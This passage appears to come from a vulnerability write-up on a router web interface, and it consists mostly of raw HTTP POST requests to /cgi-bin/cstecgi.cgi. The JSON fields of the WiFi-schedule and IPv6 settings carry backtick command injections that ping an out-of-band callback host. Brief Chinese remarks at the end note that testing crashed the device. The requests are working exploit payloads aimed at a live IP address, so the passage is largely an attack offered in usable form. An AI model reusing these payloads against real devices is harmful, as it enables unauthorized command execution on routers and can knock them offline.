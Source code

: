 
```
POST /cgi-bin/cstecgi.cgi?token=223A30BC129975D7 HTTP/1.1
Host: 182.155.104.240
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: http://182.155.104.240
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://182.155.104.240/advance/wifi_schedule.html?token=223A30BC129975D7
Priority: u=1

{"wifiIdx":"0","enable":"`ping -c 2 poc.wuxln8i9.eyes.sh`","isGuest":"0","topicurl":"setWiFiScheduleCfg"}
```



# 13. `/advance/ipv6.html` （❌）

```
POST /cgi-bin/cstecgi.cgi?token=223A30BC129975D7 HTTP/1.1
Host: 182.155.104.240
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: http://182.155.104.240
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://182.155.104.240/advance/ipv6.html?token=223A30BC129975D7
Priority: u=1

{"service":"`ping -c 2 poc.wuxln8i9.eyes.sh`","topicurl":"setIpv6Cfg"}
```



。。。

沃日。。。打这个又打炸了。。。woc。。。

。。。

打不得。。。
